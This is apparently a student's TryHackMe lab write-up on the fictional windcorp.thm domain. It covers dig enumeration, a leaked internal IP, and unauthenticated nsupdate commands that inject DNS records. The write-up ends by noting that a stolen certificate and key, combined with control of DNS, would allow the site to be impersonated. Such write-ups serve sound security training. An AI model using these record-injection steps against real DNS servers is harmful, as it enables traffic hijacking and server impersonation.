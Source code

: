 This is part of a lesson about **insecure dynamic DNS updates** (where anyone can modify DNS records if security is misconfigured).

You can try with:
- Zone transfers (`dig AXFR windcorp.thm @fire.windcorp.thm`)
- Dynamic DNS updates (`nsupdate`)

---
## Zone transfers

The popup login page is on: **selfservice.windcorp.thm**.

#Attacking_machine 
```
dig selfservice.windcorp.thm @<MACHINE IP>
```

![[DNS exploitation-20250905111019689.webp]]

### Key Sections

#### ✅ HEADER

`status: NOERROR`

- Means the query succeeded, the server had a valid answer.

---

#### ✅ QUESTION

`;selfservice.windcorp.thm. IN A`

- You asked for an **A record** (IP address) of `selfservice.windcorp.thm`.

---
#### ✅ ANSWER

`selfservice.windcorp.thm. 3600  IN  CNAME   fire.windcorp.thm. fire.windcorp.thm.        3600  IN  A       10.10.183.255 fire.windcorp.thm.        3600  IN  A       192.168.112.1`

- `selfservice.windcorp.thm` is a **CNAME (alias)** → it points to `fire.windcorp.thm`.

- `fire.windcorp.thm` has **two A records**:
    - `10.10.183.255` (likely the external TryHackMe target machine)
    - `192.168.112.1` (an **internal/private IP** on the corporate LAN)


So, when you resolve `selfservice.windcorp.thm`, it’s basically an alias for `fire.windcorp.thm`, which can resolve to either external or internal IPs.

---

#### ✅ What this means

- You’ve discovered that **selfservice.windcorp.thm** is not its own server — it’s an alias for **fire.windcorp.thm**.
    
- The DNS server is **leaking an internal IP (192.168.112.1), which is sensitive info.
    
    - This is a common misconfiguration in real environments: exposing internal addressing via DNS.
        
- The **external service** you can reach is at **10.10.183.255** (your attack target in THM).
    

---

⚡️ In a real pentest, this would tell you:

1. Try accessing `http://selfservice.windcorp.thm` → it resolves to the target IP.
2. The internal IP (`192.168.112.1`) might be useful later for **pivoting** or **VPN access**.
3. If you can query DNS further, you may find **other subdomains** that also leak internal infrastructure.

---


## Dynamic DNS updates 

`nsupdate` is a command-line tool (part of the `dnsutils` package in Kali) that lets you send **DNS update requests** to a nameserver.

This is exactly what your earlier TXT flag hinted at:

> “Allowing nonsecure dynamic updates is a significant security vulnerability because updates can be accepted from untrusted sources”

That means the target DNS server (`fire.windcorp.thm / <MACHINE IP>`) might let you add or change DNS records without authentication.

#Attacking_machine 

1. First, confirm the DNS server is alive:
```
dig windcorp.thm @<MACHINE IP>
```

![[DNS exploitation-20250905114949374.webp]]

The answer section confirms it's alive.

2. Query for subdomain (`selfservice.windcorp.thm`):
```
dig selfservice.windcorp.thm @10.10.183.255
```

3. Attempt dynamic update with `nsupdate`:
```
nsupdate
> server 10.10.183.255 
> zone windcorp.thm 
> update add test.windcorp.thm 600 A 10.9.0.123 
> send
```

4. Verify:
```
dig test.windcorp.thm @10.10.183.255
```

![[DNS exploitation-20250905120034193.webp]]

If it resolves to your IP, the server accepts **unauthenticated dynamic updates** (a critical vuln).

 5. (Optional) Add a TXT record

	Sometimes CTFs hide flags in DNS TXT updates. You can test like this:
	
```
> update add hacked.windcorp.thm 600 TXT "Owned by Kali"
> send
```


Verify:
```
dig -t TXT hacked.windcorp.thm @10.10.183.255
```

![[DNS exploitation-20250905120651351.webp]]

So we can add records.

> [!Important] 
>This only works if the DNS server allows “nonsecure dynamic updates.” In real life, this is a **severe misconfiguration**

## Summing up what you know

- There is a authenticated site https://selfservice.windcorp.thm .
- We have the certificate and private key, so we could impersonate that server .
- We can alter DNS records, so impersonating.

## Diagrams

### **Visual network diagram** I generated for `windcorp.thm`

![[DNS exploitation-20250905191555720.webp]]

It shows:

- `windcorp.thm` (domain)
- `fire.windcorp.thm` (authoritative NS, with both IPs)
- `selfservice.windcorp.thm` (CNAME → fire)
- Possible dynamic updates (test/hacked records)
- Other hosts (`dev`, `mail`) for enumeration.


---

### Reverse lookup network

![[DNS exploitation-20250905191610104.webp]]

It maps **IPs → hostnames** for:

- `10.10.183.255` → `fire.windcorp.thm`, `mail.windcorp.thm`
- `192.168.112.1` → `fire.windcorp.thm` (internal)
- `192.168.112.x` → `dev.windcorp.thm` (internal)
- `selfservice.windcorp.thm` → CNAME → `fire.windcorp.thm`


---
### Attack surface map  for `windcorp.thm`

![[DNS exploitation-20250905191618544.webp]]

It shows:

- `fire.windcorp.thm` as the **authoritative NS** (main target).
- `selfservice` (CNAME), `mail`, and `dev` as potential subdomains.
- Attack vectors:
    - **Zone transfer (AXFR)** → dump all records.
    - **Subdomain brute force** → discover hidden hosts.
    - **Dynamic DNS update** → inject records via misconfig.

---
### Internal vs external network

![[DNS exploitation-20250905192428760.webp]]

It clearly separates:

- **External** (10.10.183.255): `fire.windcorp.thm`, `mail.windcorp.thm`
- **Internal** (192.168.112.0/24): `fire.windcorp.thm`, `dev.windcorp.thm`
- **Alias**: `selfservice.windcorp.thm` → CNAME to `fire` (resolves externally and internally)
- **Attack vectors**: AXFR on `fire`, dynamic updates via `nsupdate`, and subdomain brute force from the domain.


